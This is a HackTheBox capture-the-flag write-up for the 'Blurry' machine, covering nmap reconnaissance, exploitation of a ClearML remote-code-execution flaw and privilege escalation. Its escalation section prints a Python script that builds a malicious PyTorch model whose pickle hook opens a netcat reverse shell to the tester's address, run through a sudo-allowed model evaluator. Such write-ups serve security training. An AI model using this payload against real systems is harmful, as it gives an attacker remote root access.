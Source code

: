 ```yaml
---
title: Blurry
tags:
  - HackTheBox
  - Medium
  - ClearML
  - CVE
  - Python-Vulnerability
---
```

![](Pasted%20image%2020240904165148.png)
## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.19 blurry.htb" | sudo tee -a /etc/hosts
```

Then I performed an Nmap scan:

```shell
nmap -sC -T4 -p- blurry.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http
|_http-title: ClearML
```

As seen, a redirect is done to `app.blurry.htb`, so I added to the hosts file. Afterwards I decided to take a look at the webpage:

![](Pasted%20image%2020240904170144.png)

## Weaponization

I decided to search for "*ClearML cve*" on the Internet and found the following RCE: [CVE-2024-24590](https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit)

## Exploitation

First, I logged in as gitblanc, and look up for projects. I noticed a project called **Black Swan**:

![](Pasted%20image%2020240904171314.png)

- I installed ClearML on terminal with: `sudo pip install clearml`
- Then I ran the ClearML setup script: `clearml-init`
- I generated new credentials for configuration:

![](Pasted%20image%2020240904174414.png)

![](Pasted%20image%2020240904172733.png)

- I got some errors related to subdomain `api.blurry.htb` and `files.blurry.htb`, so I added the new domains.

> We've got a reverse shell :D

![](Pasted%20image%2020240904174859.png)

Stabilize it with:

```shell
python3 -c "import pty; pty.spawn('/bin/bash')"
# then
export TERM=xterm
# Press -> Ctrl + Z
stty raw -echo; fg
```

> We've got user flag :D

![](Pasted%20image%2020240904175101.png)

## Privilege Escalation

I'll upload linpeas and run it:

![](Pasted%20image%2020240904175417.png)

![](Pasted%20image%2020240904175603.png)

If we run `sudo -l`:

![](Pasted%20image%2020240904180509.png)

So I investigated a bit and found this script to gain root privileges by generating a malicious model [pytorch-script](https://github.com/v4resk/red-book/blob/main/redteam/privilege-escalation/linux/script-exploits/python/pytorch-models-pth-files-code-execution.md)

- I had to install **torch**: `sudo pip3 install torch`

```python
# generate_model.py
import torch
import torch.nn as nn
import os

class EvilModel(nn.Module):
	def __init__(self):
		super(EvilModel, self).__init__()
		self.dense = nn.Linear(10, 50)
	
	def forward(self, evil):
		return self.dense(evil)
	
	def __reduce__(self):
		# Inject OS command.
		cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.146 777 >/tmp/f"
		return os.system, (cmd,)

# Save the model
evil_model = EvilModel()
torch.save(evil_model, 'evil.pth')
```

I executed the previous script on my machine, and uploaded 'evil.pth' to the victim machine. Then I moved it to `/modules` and executed:

```shell
sudo -u root /usr/bin/evaluate_model /models/evil.pth
```

> We are root now and got root flag! 

![](Pasted%20image%2020240904192225.png)

==Machine pwned==






